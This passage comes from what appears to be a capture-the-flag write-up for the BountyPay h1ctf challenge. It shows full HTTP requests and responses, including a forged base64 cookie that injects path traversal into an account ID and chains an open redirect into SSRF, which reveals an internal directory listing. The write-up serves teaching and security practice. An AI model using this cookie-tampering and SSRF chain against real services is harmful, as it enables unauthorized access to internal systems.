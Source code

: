 While returning the following response:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 09 Jun 2020 16:17:38 GMT
Content-Type: application/json
Connection: close
Content-Length: 177

{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/F8gHiqSdpK\/statements?month=01&year=2020","data":"{\"description\":\"Transactions for 2020-01\",\"transactions\":[]}"}
```

At that point I also looked at the token cookie, which I got when I bypassed the 2FA. Once I decoded its base64, I figured that I might be able to change the request by using the cookie. 

The cookie: `eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9` 
Decoded: `{"account_id":"F8gHiqSdpK","hash":"de235bffd23df6995ad4e0930baac1a2"}` 

Considering the fact that the `account_id` was available in both the cookie and the response from the request above, I tried to change it and see how it reacted. This is the point where I was finally able to use the open redirect that I have found on stage 2. 

I created a new cookie: `{"account_id":"../../redirect?url=FUZZ&","hash":"de235bffd23df6995ad4e0930baac1a2"}` and passed it to ffuf using a script that generated a wordlist and encoded all of the possible words in base64. My wordlist was a mix of two things: 

1. Known words and files
2. Ideas I got while doing recon - one thing I figured during the recon was that the software.bountypay.h1ctf.com was only accessable from within the company's network and if I find an SSRF, together with the open redirect, I would have defintly checked it out. 

Putting everything together, I found a directory listing while fuzzing which leads me to the next step 

### Step 6 - Information Disclosure (Directory Listing, In-house APK)

As mentioned in the previous step, I got a hit while fuzzing through the SSRF by using the open redirect I have found earlier. The final request was as following: 

```
GET /statements?month=01&year=2020 HTTP/1.1
Host: app.bountypay.h1ctf.com
Cookie: token=eyJhY2NvdW50X2lkIjoiLi4vLi4vcmVkaXJlY3Q/dXJsPWh0dHBzOi8vc29mdHdhcmUuYm91bnR5cGF5LmgxY3RmLmNvbS91cGxvYWRzLyYiLCJoYXNoIjoiZGUyMzViZmZkMjNkZjY5OTVhZDRlMDkzMGJhYWMxYTIifQ==

```

and it's response gave me the hint for the next step: 

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 09 Jun 2020 16:27:29 GMT
Content-Type: application/json
Connection: keep-alive
Content-Length: 491

{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/..\/..\/redirect?url=https:\/\/software.bountypay.h1ctf.com\/uploads\/&\/statements?month=01&year=2020","data":"<html>\n<head><title>Index of \/uploads\/<\/title><\/head>\n<body bgcolor=\"white\">\n<h1>Index of \/uploads\/<\/h1><hr><pre><a href=\"..\/\">..\/<\/a>\n<a href=\"\/uploads\/BountyPay.apk\">BountyPay.apk<\/a>                                        20-Apr-2020 11:26              4043701\n<\/pre><hr><\/body>\n<\/html>\n"}
```
